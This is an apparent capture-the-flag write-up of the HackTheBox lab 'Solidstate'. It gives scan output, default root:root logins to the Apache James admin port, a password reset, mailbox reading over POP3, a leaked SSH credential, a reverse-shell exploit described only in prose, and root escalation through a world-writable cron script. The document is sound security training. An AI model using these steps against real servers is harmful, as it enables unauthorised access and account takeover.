 ```yaml
---
title: "HackTheBox - WriteUp 5"
date: 2019-05-24T18:06:06+08:00
description: "HackTheBox 练手"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Solidstate

## Before Attack

```
# Nmap 7.70 scan initiated Fri May 24 05:56:47 2019 as: nmap -A -Pn -p1-65535 -oA solidstate 10.10.10.51

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.2 [10.10.14.2]), 
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

Go to `searchsploit james` : `Apache James Server 2.3.2 - Remote Command Execution | exploits/linux/remote/35513.py`

Found this detailed explaination: https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf

Check the exploit code, found that this exploit must be triggered by someone logging into the server.

So, after I `gobuster`-ed this site on 80 port:

```
/images (Status: 301)
/index.html (Status: 200)
/about.html (Status: 200)
/services.html (Status: 200)
/assets (Status: 301)
/README.txt (Status: 200)
/LICENSE.txt (Status: 200)
```

Nothing seems to be useful.

Next, Let's check the smtp via Nmap Script:

```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-24 06:38 UTC
Nmap scan report for 10.10.10.51
Host is up (0.020s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users: 
|_  root

Nmap done: 1 IP address (1 host up) scanned in 1.49 seconds
```

That's all we can find now.

## Start attack.

### Get the normal user

According to the exploit code and `nmap` result, `nc 10.10.10.51 4555`, Login with `root:root`, next, Issue a `help`.

`help` tells us that we could use this interface to reset someone's password. I guess the one related to the site is `mindy`. 

Then, reset the password: `setpassword mindy testpass`.

Maybe the user credential is in the mailbox. Check POP3: `telnet 10.10.10.51 110`, Use following code to get the result:

```
USER mindy
PASS testpass
LIST
RETR 2
```

Found the credential in the mail content, trying to login in SSH. Success. You are running under a `rbash` with only `env` & `ls` & `cat` available.

```
username: mindy
pass: P@55W0rd1!2@
```

### Use the exploit code below

The above exploit code we just found can be used here.

Just modify the payload inside the exploit to receive a reverse shell. Then, use Python to spawn a tty. Set `$PATH` and `$TERM`.

### Privilege Escalation

Use `LinEnum.sh`, found a 777 file called `/opt/tmp.py` used for clean the `/tmp`, Check again, owned by `root:root`.

You can also use `pspy` to find this.

What's behind?

`cat /etc/crontab`

```
# m h  dom mon dow   command
*/3 * * * * python /opt/tmp.py

-rwxrwxrwx  1 root root 104 Aug 22 2017 03:38 tmp.py
```

Just that.

So modify `os.system()` in this file to get whatever you want.

(END)
